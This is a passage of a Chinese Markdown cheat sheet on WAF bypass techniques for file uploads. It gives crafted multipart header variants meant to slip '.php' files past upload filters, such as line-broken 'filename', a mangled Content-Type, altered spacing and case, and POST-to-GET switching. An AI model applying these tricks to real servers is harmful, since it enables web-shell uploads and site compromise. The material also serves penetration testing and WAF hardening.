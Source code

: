 #### `filename`换行
* PHP支持，Java不支持

```
Content-Disposition: form-data; name="file"; file
name="xx.php"
```

* 下面这种换行PHP也支持。
```
fi
lename
```

* 在IIS6.0下如果我们换一种书写方式，把`filename`放在其他地方：  

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/20190309221232.png)


### POST/GET
* 前提: 有些WAF的规则是：如果数据包为POST类型，则校验数据包内容。
* 操作: 此种情况可以上传一个POST型的数据包，抓包将POST改为GET。


### 利用waf本身缺陷
#### 删除实体里面的`Content-Type`字段
* 第一种是删除`Content`整行

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/_1528645576_937160420_1536893309)

* 第二种是删除`C`后面的字符。即删除掉`ontent-Type: image/jpeg`只留下`c`，将`.php`加`c`后面即可，但是要注意，双引号要跟着`c.php`。

```
正常包：
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"
Content-Type: image/png

构造包：
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"
```

#### 删除Content-Disposition字段里的空格

```
Content-Disposition: form-data; name="file"; filename="yijuhua.php"
```

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/20190309221203.png)

* **删除**上面字段**冒号后的空格**或者**name前面的空格**。

#### 修改`Content-Disposition`,`name`,`filename`的大小写
```
Content-Disposition: form-data; name="file"; filename="xx.php"
```
